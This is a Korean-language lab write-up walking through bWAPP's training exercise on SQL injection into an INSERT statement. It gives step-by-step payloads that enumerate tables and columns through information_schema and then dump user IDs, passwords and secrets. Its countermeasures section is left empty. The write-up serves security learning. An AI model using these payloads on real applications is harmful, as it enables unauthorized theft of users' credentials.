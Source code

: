 ```yaml
---
title: "[bWAPP] 1. Injection - SQL Injection - (SQLite)"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## SQL Injection

응용 프로그램 보안 상의 허점을 의도적으로 이용해, 

임의의 SQL문을 주입하여 악의적인 SQL문을 실행하게 함으로써

DB를 비정상적으로 조작하는 코드 인젝션의 대표적인 공격.

이로인해 공격자가 DB에 저장되어 있는 다른 사용자의 개인 정보 등 허가되지 않은 정보에 접근하여,

데이터 변조 및 조작 가능.

<br>

<br>

## Injection - Stored

공격자가 서버(게시판)에 태그/스크립트를 저장시켜, 클라이언트가 게시판을 읽을 경우 태그/스크립트가 실행되는 방식.

이로 인해 쿠키 정보 탈취, 악성 코드 유입, 랜섬웨어 등의 피해로 이어질 수 있음.

<br>

<br>

## Object

개인정보를 탈취해보자

![image-20220316224002844](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316224002844.png)

- SQL 구문오류가 있는지 파악해보자

<BR>

![image-20220316224222471](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316224222471.png)

- SQL syntax 오류가 있다고 확인, 마지막에 'bee')' 라는 힌트 얻음
- SQL문을 추측해보자

<BR>

![image-20220316224408511](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316224408511.png)

- 'test', 'bee')' 힌트로 test 앞에 작은 따옴표를 두고 넣어보니 그대로 출력된 것 확인

<br>

![image-20220316224544742](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316224544742.png)

- test 입력해보니 아까 힌트로 얻었던 bee 가 Owner 인 것 확인했고 'test를 그대로 출력헀던 곳이 Entry임을 확인
- 자 그럼 sql문을 유추해보면

`insert into table_name('#', 'Date', 'Entry', 'Owner')`

- 다음과 같이 형성 되어있을거라 판단
- 이제 저 Entry에 SQL문을 삽입해보자.

`test', (select table_name from information_schema where table_schema='bWAPP' limit 0,1))#`

- test로 엔트리에 입력해주고 작은따옴표 닫아준 후 콤마를 찍어줘서 엔트리 조건을 충족시켜준 후에
- 바로 괄호를 열고 우리가 원하는 select 문을 삽입해준다.
- 그러고 괄호를 닫아주고 insert into table_name의 괄호도 충족시키기위해 하나 더 닫아주고
- 뒤에는 날려버릴거기에 주석으로 처리해준다

`insert into table_name('#', 'Date', 'test', (select table_name from information_schema where table_schema='bWAPP' limit 0,1))#', 'Owner')`

- 최종적으로는 이렇게 나올것이다.

<br>

### 테이블 이름

![image-20220316225443448](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316225443448.png)

`test', (select table_name from information_schema.tables where table_schema='bWAPP' limit 3,1))#`

- 이런식으로 limit를 활용해서 조회해보자
  -  limit n,m ->  n번째의 m개만 출력이라는 뜻

<br>

### 컬럼 이름

![image-20220316225715936](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316225715936.png)

`test', (select column_name from information_schema.columns where table_name='heroes' limit 3,1)) #`

<br>

### 결과

![image-20220316225924971](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316225924971.png)

`test', (select concat(id,password,secret,login) from users limit 0,1))#`

- concat을 이용해 한꺼번에 조회할 수 있다.
- 성공적으로 계정 정보 탈취완료.

<br>

<br>

## 대응방안




